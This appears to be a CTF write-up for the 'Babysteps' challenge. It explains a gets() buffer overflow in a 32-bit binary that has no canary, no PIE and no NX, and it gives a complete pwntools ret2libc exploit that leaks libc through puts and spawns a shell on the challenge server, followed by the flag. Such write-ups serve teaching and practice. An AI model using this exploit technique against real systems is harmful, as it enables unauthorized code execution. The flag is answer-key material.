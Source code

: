# Babysteps

## Challenge

We are given a binary and source code for a program.
The program asks for a baby name, then enters a loop where the user can select an action from a menu.

## Solution

There is a vulnerable call to `gets()` in the `ask_baby_name()` function.
There is no canary and PIE is disabled, so we can easily use this to overwrite the return address.

NX is also disabled and there are RWX segments, so we could use this to write shellcode.

Alternatively, we can also execute a standard return2libc payload, which will use libc functions to call `system("/bin/sh")` and spawn a shell.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host challenge.nahamcon.com --port 30294 babysteps
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('babysteps')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'challenge.nahamcon.com'
port = int(args.PORT or 30294)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX disabled
# PIE:      No PIE (0x8048000)
# RWX:      Has RWX segments

libc = ELF('libc6-i386_2.35-0ubuntu3_amd64.so')

io = start()

rop = ROP(exe)

rop.call('puts', [exe.got['puts']])
rop.call('ask_baby_name')

print(rop.dump())

io.sendlineafter(b"First, what is your baby name?\n", flat({ 0x18+4: rop.chain() }))

libc.address = unpack(io.recv(4)) - libc.sym['puts']

io.info("LIBC: " + hex(libc.address))

rop = ROP(libc)
rop.call('system', [next(libc.search(b"/bin/sh"))])

print(rop.dump())

io.sendlineafter(b"First, what is your baby name?\n", flat({ 0x18+4: rop.chain() }))

io.interactive()
```

## Flag

```
flag{7d4ce4594f7511f8d7d6d0b1edd1a162}
```
